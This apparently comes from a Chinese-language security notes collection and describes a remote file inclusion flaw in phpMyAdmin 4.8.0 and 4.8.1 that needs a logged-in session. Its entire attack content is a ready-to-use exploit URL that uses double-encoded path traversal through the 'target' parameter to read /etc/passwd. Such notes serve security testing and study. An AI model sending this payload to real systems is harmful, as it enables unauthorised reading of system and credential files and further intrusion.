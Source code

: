# phpmyadmin

---

**远程文件包含**

- 影响范围：phpmyadmin 4.8.0和4.8.1

- 条件：登陆后

  ```
  /index.php?target=db_sql.php%253f/../../../../../../../../etc/passwd
  ```

  